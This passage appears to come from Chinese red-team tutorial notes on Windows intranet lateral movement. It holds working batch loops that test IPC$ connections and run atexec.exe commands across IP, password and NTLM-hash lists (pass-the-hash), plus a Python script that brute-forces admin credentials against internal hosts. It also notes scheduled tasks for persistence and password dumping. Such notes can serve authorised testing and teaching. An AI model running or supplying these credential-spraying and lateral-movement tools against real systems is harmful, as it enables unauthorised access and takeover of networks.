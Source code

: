 
创建计划任务主要用于维持权限，另外，没有过uac，就留不了system权限任务，比如抓密码等。

7.批量建立IPC连接：

	FOR /F %%i in (ip.txt) do net use \\%%i\ipc$ "1234.bmk!" /user:administrator #批量检测IP对应明文连接
	FOR /F %%i in (ip.txt) do atexec.exe ./administrator:1234.bmk!@%%i whoami    #批量检测IP对应明文回显版
	FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@10.10.40.55 whoami     #批量检测明文对应IP回显版
	FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@10.10.40.55 whoami #批量检测HASH对应IP回显版

批量建立连接升级版：

	#net use \\10.10.40.55\ipc$ 1234.bmk! /user:lmrsec\administrator

	#pip install pyinstaller
	#pyinstaller -F 1.py 生成可执行EXE
	#by CSDN AUTHOR:Allen的学习笔记
	import os,time
	ips={
	    '192.168.3.21',
	    '192.168.3.25',
	    '192.168.3.29',
	    '192.168.3.30',
	    '192.168.3.31',
	    '192.168.3.33'
	}
	
	users={
	    'Administrator',
	    'boss',
	    'dbadmin',
	    'fileadmin',
	    'mack',
	    'mary',
	    'vpnadm',
	    'webadmin'
	}
	passs={
	    'admin',
	    'admin!@#45',
	    'Admin12345'
	}
	
	for ip in ips:
	    for user in users:
	        for mima in passs:
	            exec="net use \\"+ "\\"+ip+'\ipc$ '+mima+' /user:lmrsec\\'+user
	            print('--->'+exec+'<---')
	            os.system(exec)
	            time.sleep(1)

![](images/53.png)
